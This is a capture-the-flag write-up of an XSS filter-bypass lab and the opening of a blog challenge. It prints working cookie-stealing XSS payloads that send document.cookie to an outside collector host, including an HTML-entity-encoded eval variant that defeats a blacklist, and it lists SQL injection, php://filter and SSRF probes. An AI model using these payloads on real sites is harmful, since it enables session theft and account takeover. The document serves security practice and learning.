 # XSS LAbs 
The blacklist  chall 

Desc-
>We got an access to a training resource from WebTopia, where they practise XSS filter bypassing. Enjoy it!
Note: If your payload does not seem to work at first, please use RequestBin to check before contacting the support.

### Rekon 
- Have to bypass four steps to get the flag , Uses Websitehook or RequestBin to catch the request made , our goal is to steal the cookie

### solution
- XSS 1/4 has no filter just use 

```
<img src=x onerror="location='//eo25c6u4oi6ob9b.m.pipedream.net?c='+document.cookie"> 

```
visit the next site at `/0d566d04bbc014c2d1d0902ad50a4122`

- XSS 2/4 
```
def filter_2(payload):
    regex = ".*(script|(</.*>)).*"
    if re.match(regex, payload):
return "Nope"
    return payload
```

The word script and closing tags are blacklisted so used 

```
<img src=x onerror="location='//eo25c6u4oi6ob9b.m.pipedream.net?c='+document.cookie">

```
Got and visit `/5d1aaeadf1b52b4f2ab7042f3319a267`

- XSS 3/4 

```
def filter_3(payload):
    regex = ".*(://|script|(</.*>)|(on\w+\s*=)).*"
    if re.match(regex, payload):
return "Nope"
    return payload
```

Additionally the https url :// and inline event handlers are also blocked. 

```
<img src=x ONERROR=&#101;&#118;&#97;&#108;&#40;&#34;&#119;&#105;&#110;&#100;&#111;&#119;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#61;&#39;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#101;&#111;&#50;&#53;&#99;&#54;&#117;&#52;&#111;&#105;&#54;&#111;&#98;&#57;&#98;&#46;&#109;&#46;&#112;&#105;&#112;&#101;&#100;&#114;&#101;&#97;&#109;&#46;&#110;&#101;&#116;&#63;&#99;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;&#34;&#41;>

```
running this to get 

`/b355082fc794c4d1d2b6c02e04163090`

which is just decimal encoding for eval("window.location='https://eo25c6u4oi6ob9b.m.pipedream.net?c=' + document.cookie")
 
- XSS 4/4 use the above one for this part as well 

`flag=N0PS{n0w_Y0u_4r3_x55_Pr0}`

Lesson Learnt - Char encoding for any shitty blacklist bypass . 


# Blog 
> It seems that WebTopia deployed a blog for all its inhabitants. Can you investigate on it ?

Initial Rekon : 
- `/blog.php?blog=` base endpoint
-JSON based response like `{"id":, "title":"...", "content":"...", "name":"..."}`
- `1 to 3` givesnormal behaviour for 3 to 100 , the response is null, same for edge cases .
- anything like `/blog.php?blog=abcd` returned `{"error":"Invalid ID"}` 
- basic `/blog.php?blog=-1 UNION SELECT 1,2,3--` gave 400 bad request 
- same for php filters like `/blog.php?blog=php://filter/convert.base64-encode/resource=index.php` which gave invalid ID 
- Ran Intruder against `/blog.php?blog=$x$` with some payloads getting 200 on all of them but invalid Id 

- There is mention of  contacting Sylvester , and if i want my own account but no endpoint like register/account/login exist. Sylevester blog doesnt reveal anything

They say no to fuzzing

### Solution 
- `Warning: Request should only be sent to backend host.`
on  `/blog.php?blog=http://eooyidmjw1f2zmy.m.pipedream.net`

Gave a smell of SSRF and to confirm that tried bunch of Combinations to get a hit  

